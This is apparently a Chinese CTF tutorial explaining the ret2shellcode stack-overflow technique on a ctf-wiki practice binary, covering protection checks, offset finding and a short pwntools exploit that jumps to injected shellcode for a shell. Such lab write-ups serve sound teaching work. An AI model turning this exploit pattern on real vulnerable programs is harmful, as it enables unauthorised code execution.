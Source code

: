 # 04.ret2shellcode
<a name="b6724cff"></a>
## 原理

 ret2shellcode，当程序当中没有system函数时，我们需要自己往栈上写入一段shellcode，然后控制eip使其指向shellcode的地址。

**shellcode** 指的是用于完成某个功能的汇编代码，常见的功能主要是获取目标系统的 shell。

在栈溢出的基础上，要想执行 shellcode，需要对应的程序在运行时，shellcode 所在的区域具有可执行权限。即必须关闭堆栈不可执行功能。<br />![](https://img-blog.csdnimg.cn/20210221153712915.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTk0MzUyMg==,size_16,color_FFFFFF,t_70#pic_center#crop=0&crop=0&crop=1&crop=1&id=bPkJ5&originHeight=386&originWidth=728&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

<a name="039336d4"></a>
## 例题（来自ctfwiki）：

<a name="562b019f"></a>
### 首先checksec：

![](https://img-blog.csdnimg.cn/20210221153736960.png#pic_center#crop=0&crop=0&crop=1&crop=1&id=o1F0N&originHeight=165&originWidth=376&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)<br />发现程序没有开启任何保护，并且存在可读可写可执行段。

<a name="d8a8823b"></a>
### 然后ida32打开：

![](https://img-blog.csdnimg.cn/2021022115385818.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTk0MzUyMg==,size_16,color_FFFFFF,t_70#pic_center#crop=0&crop=0&crop=1&crop=1&id=M9jEX&originHeight=271&originWidth=690&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)首先观察到程序没有system函数，并且存在可读可写可执行段，存在栈溢出漏洞，考虑是ret2shellcode。<br />程序逻辑非常简单，通过gets函数读入数据给v4，然后再将v4的值复制到buf2中，而buf2正好处于可读可写可执行段中，所以shellcode的地址应该是buf2的地址。

![](https://img-blog.csdnimg.cn/202102211539177.png#pic_center#crop=0&crop=0&crop=1&crop=1&id=SsAxY&originHeight=133&originWidth=804&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

通过cyclic确定需要填入的垃圾数据大小为112。

<a name="4f7d0e2b"></a>
### 思路：

首先向程序中写入shellcode，然后再填入垃圾数据，**shellcode和垃圾数据的大小之和为112**，可使用ljust方法，然后写入返回地址，程序写入后会被复制到buf2中，buf2的地址为0x804a080。

<a name="a3e6be45"></a>
### exp：

```python
from pwn import *
sh = process('./ret2shellcode')
shellcode = asm(shellcraft.sh())
#生成shellcode
buf2_addr = 0x804a080
sh.sendline(shellcode.ljust(112, 'A') + p32(buf2_addr))
#先写入shellcode，剩余位置用A补齐
sh.interactive()
```
